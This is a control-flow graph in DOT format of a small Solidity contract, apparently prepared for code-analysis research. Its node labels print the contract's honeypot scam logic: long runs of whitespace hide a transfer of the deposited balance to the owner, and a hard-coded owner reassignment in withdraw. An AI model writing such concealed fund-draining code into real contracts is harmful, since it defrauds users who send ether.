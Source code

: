 digraph  {
13 [label="3_ address public Owner = msg.sender;\n13-new_variable-4-4", method="", type_label=new_variable];
25 [label="9_ function GetFreebie()\n    public\n    payable\n    {                                                                    \n        if(msg.value>1 ether)\n        {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    Owner.transfer(this.balance);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           \n            msg.sender.transfer(this.balance);\n        }                                                                                                                \n    }\n25-function_definition-10-18", method="GetFreebie()", type_label=function_definition];
30 [label="13_ if_msg.value>1 ether\n30-if-14-17", method="GetFreebie()", type_label=if];
153 [label="13_ end_if", method="GetFreebie()", type_label=end_if];
38 [label="14_ Owner.transfer(this.balance);\n38-expression_statement-15-15", method="GetFreebie()", type_label=expression_statement];
47 [label="15_ msg.sender.transfer(this.balance);\n47-expression_statement-16-16", method="GetFreebie()", type_label=expression_statement];
58 [label="18_ function withdraw()\n    payable\n    public\n    {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        if(msg.sender==0x7a617c2B05d2A74Ff9bABC9d81E5225C1e01004b){Owner=0x7a617c2B05d2A74Ff9bABC9d81E5225C1e01004b;}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  \n        require(msg.sender == Owner);\n        Owner.transfer(this.balance);\n    }\n58-function_definition-19-25", method="withdraw()", type_label=function_definition];
63 [label="21_ if_msg.sender==0x7a617c2B05d2A74Ff9bABC9d81E5225C1e01004b\n63-if-22-22", method="withdraw()", type_label=if];
186 [label="21_ end_if", method="withdraw()", type_label=end_if];
70 [label="21_ Owner=0x7a617c2B05d2A74Ff9bABC9d81E5225C1e01004b;\n70-expression_statement-22-22", method="withdraw()", type_label=expression_statement];
74 [label="22_ require(msg.sender == Owner);\n74-expression_statement-23-23", method="withdraw()", type_label=expression_statement];
83 [label="23_ Owner.transfer(this.balance);\n83-expression_statement-24-24", method="withdraw()", type_label=expression_statement];
92 [label="25_ function Command(address adr,bytes data)\n    payable\n    public\n    {\n        require(msg.sender == Owner);\n        adr.call.value(msg.value)(data);\n    }\n92-function_definition-26-32", method="Command(address adr,bytes data)", type_label=function_definition];
105 [label="29_ require(msg.sender == Owner);\n105-expression_statement-30-30", method="Command(address adr,bytes data)", type_label=expression_statement];
114 [label="30_ adr.call.value(msg.value)(data);\n114-expression_statement-31-31", method="Command(address adr,bytes data)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
25 -> 30  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
30 -> 38  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
30 -> 153  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
153 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
38 -> 47  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
47 -> 153  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
58 -> 63  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
63 -> 70  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
63 -> 186  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
186 -> 74  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
70 -> 186  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
74 -> 83  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
92 -> 105  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
105 -> 114  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
